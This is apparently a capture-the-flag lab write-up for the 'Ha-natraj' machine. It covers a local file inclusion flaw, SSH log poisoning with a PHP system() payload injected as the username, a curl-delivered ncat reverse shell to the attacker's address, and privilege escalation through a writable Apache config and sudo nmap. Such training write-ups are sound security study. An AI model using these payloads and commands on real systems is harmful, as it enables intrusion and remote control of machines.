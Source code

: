 # Ha-natraj
### Enumeration
Ports 22 and 80 are open.

Running gobuster, we find a `/console` directory containing a `file.php`. I tried fuzzing for parameters using ffuf and the burp parameters wordlist in seclists (`?FUZZ=1`), but that didn't work. Thinking a little bit, I guessed that maybe the parameter was just `file`, and that the script would fetch file contents, so I tried `?file=/etc/passwd` and got back the contents of the server's `/etc/passwd` file!

I created a users wordlist using this file, and ran hydra, targeting SSH:

```shell-session
$ wget http://192.168.64.80/console/file.php?file=/etc/passwd -O passwd
$ grep bash passwd | cut -d: -f1 > users.txt
$ hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -Ifu ssh://192.168.64.80
```

Didn't get anything this way. Instead, I focussed on trying to get the contents of `file.php`. This was ultimately achieved using php filters:

```shell-session
$ curl 'http://192.168.61.80/console/file.php?file=php://filter/convert.base64-encode/resource=file.php' | base64 -d > file.php
```

The contents is:

```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```

So we've got a standard `include()`. I tried using `file=http://192.168.61.200/test.html`, but it doesn't appear that RFI is enabled by the PHP config, as no requests were made to the python webserver I spun up.

We assume that we're accessing files as the `www-data` user, so we check whether there's a flag in `/var/www/local.txt`, which there is!

### Foothold

Fuzzing with a variety of LFI wordlists, we discover we have access to `/var/log/auth.log`, which is the SSH log file. So we might be able to inject code into this log file by attempting to connect to SSH and injecting in the username. Then we can use the LFI to retrieve and execute the code.

Just to check we have control over input:

```shell-session
$ ssh test@192.168.53.80
$ curl http://192.168.53.80/console/file.php?file=/var/log/auth.log --output -
```

In the output, we see:

```
Mar 12 11:02:23 ubuntu sshd[886]: Invalid user test from 192.168.53.200 port 38090
Mar 12 11:02:23 ubuntu sshd[886]: pam_unix(sshd:auth): check pass; user unknown
Mar 12 11:02:23 ubuntu sshd[886]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.53.200
Mar 12 11:02:25 ubuntu sshd[886]: Failed password for invalid user test from 192.168.53.200 port 38090 ssh2
```

We see `test` and so hopefully we can inject a shell. Note that we're particular to use single quotes in the injected code, and as such the username is a bit messy to keep bash happy:

```shell-session
$ ssh '<?php echo system($_GET['"'cmd'"']); ?>'@192.168.62.80
$ curl http://192.168.53.80/console/file.php?file=/var/log/auth.log --output -
```

I ran curl just to check that code was being executed and saw:

```
Invalid user  from 192.168.53.200 port 38092
```

We see spaces where there should be a username. So code is being executed!

```shell-session
$ curl 'http://192.168.53.80/console/file.php?file=/var/log/auth.log&cmd=id' --output -

...

Invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Woop! So we'll get a reverse shell. Had to try a number of different reverse shells from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat), in the end the one that worked was `ncat 192.168.53.200 9001 -e /bin/bash`:

```shell-session
$ curl 'http://192.168.62.80/console/file.php?file=/var/log/auth.log&cmd=ncat%20192.168.62.200%209001%20-e%20/bin/bash'
```

`nc` was on the machine, but I wasn't able to get any of the standard reverse shells to work.

### Privilege Escalation
Running `sudo -l`, we are able to start, stop and restart the Apache server.

Next, we check writable files:

```shell-session
$ find / -type f -writable 2>/dev/null | grep -v proc
```

We see `/etc/apache2/apache2.conf`. So maybe we can change the user and group in the config file and restart so that next time we execute the reverse shell we get a shell as a different user.

I tried this first as root, but the webserver failed to restart. Next I tried as `natraj`, however that user did not seem to have any obvious privesc paths. Lastly, `mahakal` had sudo privileges to run `nmap`, and looking on GTFO bins, we see we can get a root shell easily.